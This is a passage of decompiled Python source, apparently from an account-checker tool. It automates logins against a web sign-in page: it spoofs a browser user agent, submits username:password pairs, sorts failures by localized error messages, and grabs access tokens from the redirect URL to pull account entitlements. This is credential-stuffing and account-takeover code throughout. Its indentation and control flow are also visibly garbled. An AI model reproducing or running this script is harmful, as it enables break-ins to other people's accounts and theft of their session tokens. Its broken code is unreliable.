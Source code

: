             # irreducible cflow, using cdg fallback
            max_attempts = 3
            attempt = 0
            start_time = time.time()
            timeout = 15
            try:
                window.evaluate_js('\n                    Object.defineProperty(navigator, \'userAgent\', {\n                        get: function() { return \'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36\'; }\n                    });\n                ')
            except Exception as e:
                print(f'❌ Failed to set user agent for {username}:{password}: {str(e)}')
            if attempt < max_attempts and time.time() - start_time < timeout:
                attempt += 1
                time.sleep(1)
                current_url = window.get_current_url()
                parsed_url = urllib.parse.urlparse(current_url)
                fragment = urllib.parse.parse_qs(parsed_url.fragment)
                if 'access_token' in fragment:
                    access_token = fragment['access_token'][0]
                    if not handled['done']:
                        print(f'✅ Success! {username}:{password} → Token: {access_token[:15]}...')
                        handled['done'] = True
                        account_info = self.get_account_info_and_entitlements(access_token, username, password)
                        if account_info:
                            self.result_signal.emit(account_info)
                    self.safe_close(window)
                        return
                        break
                                html = window.evaluate_js('document.documentElement.outerHTML') or ''
                                error_messages = ['Kullanıcı adın veya şifren yanlış olabilir', 'Your username or password may be incorrect', '用户名或密码可能不正确', 'El nombre de usuario o la contraseña pueden ser incorrectos', 'Le nom d\'utilisateur ou le mot de passe peut être incorrect', 'Der Benutzername oder das Passwort ist möglicherweise falsch', 'Неверное имя пользователя или пароль', 'ユーザー名またはパスワードが間違っている可能性があります']
                                if any((msg in html for msg in error_messages)):
                                    if not handled['done']:
                                        print(f'❌ Wrong password or username: {username}:{password}')
                                        self.failed_count += 1
                                        self.update_stats()
                                        handled['done'] = True
                                    self.safe_close(window)
                                        return
                                        break
                                                form_ready_js = '\n                (function() {\n                    let usernameInput = document.querySelector(\'input[name=\"username\"]\');\n                    let passwordInput = document.querySelector(\'input[name=\"password\"]\');\n                    let submitButton = document.querySelector(\'button[data-testid=\"btn-signin-submit\"]\');\n                    return usernameInput && passwordInput && submitButton;\n                })();\n                '
                                                try:
                                                    form_ready = window.evaluate_js(form_ready_js)
                                                except Exception as e:
                                                    form_ready = False
                                                    print(f'❌ Form ready check error for {username}:{password}: {str(e)}')
                                                if form_ready:
